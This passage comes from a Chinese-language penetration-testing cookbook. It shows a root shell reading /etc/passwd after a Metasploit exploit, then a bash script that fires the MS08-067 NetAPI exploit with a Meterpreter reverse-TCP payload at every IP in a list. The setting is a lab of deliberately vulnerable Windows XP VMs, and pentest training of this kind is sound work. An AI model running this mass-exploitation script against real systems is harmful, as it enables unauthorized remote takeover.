 ```
whoami 
root 
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
sys:x:3:3:sys:/dev:/bin/sh 
sync:x:4:65534:sync:/bin:/bin/sync 
                            **{TRUNCATED}** 
```

因为 Nessuscmd 的输出被重定向到临时文件，而不是使用集成的输出函数，所以没有脚本返回的输出来表明扫描成功，除了一个字符串用于指示系统看起来存在 Metasploit 试图利用的漏洞。 一旦脚本执行完毕，将在目标系统上返回具有`root`权限的交互式 shell。 为了演示这一点，我们使用了`whoami`和`cat`命令。

### 工作原理

Nessuscmd 是 Nessus 漏洞扫描器中包含的命令行工具。 此工具可用于通过直接从终端执行目标扫描，来扫描和评估不同插件的结果。 因为该工具（如 MSFCLI）可以轻易从 bash 终端调用，所以我们很容易构建一个脚本，将两个任务串联到一起，将漏洞扫描与利用相结合。

## 8.5 使用反向 Shell 载荷的多线程 MSF 漏洞利用

使用 Metasploit 框架执行大型渗透测试的一个困难，是每个利用必须按顺序单独执行。 如果你想确认大量系统中单个漏洞的可利用性，单独利用每个漏洞的任务可能变得乏味。 幸运的是，通过结合 MSFCLI 和 bash 脚本的功能，可以通过执行单个脚本，轻易在多个系统上同时执行攻击。 该秘籍演示了如何使用 bash 在多个系统中利用单个漏洞，并为每个系统打开一个 Meterpreter shell。

### 准备

要使用此秘籍中演示的脚本，你需要访问多个系统，每个系统都具有可使用 Metasploit 利用的相同漏洞。 提供的示例复制了运行 Windows XP 漏洞版本的 VM，来生成 MS08-067 漏洞的三个实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节还需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本同时利用单个漏洞的多个实例。 特别是，此脚本可用于通过引用 IP 地址的输入列表来利用 MS08-067 NetAPI 漏洞的多个实例：

```sh
#!/bin/bash
if [ ! $1 ]; then echo "Usage: #./script <host file> <LHOST>"; 
exit; fi

iplist=$1 
lhost=$2

i=4444 
for ip in $(cat $iplist) 
do   
    gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi 
    PAYLOAD=windows/meterpreter/reverse_tcp 
    RHOST=$ip LHOST=$lhost LPORT=$i E   
    echo "Exploiting $ip and establishing reverse connection on local port $i" 
i=$(($i+1)) 
done 
```
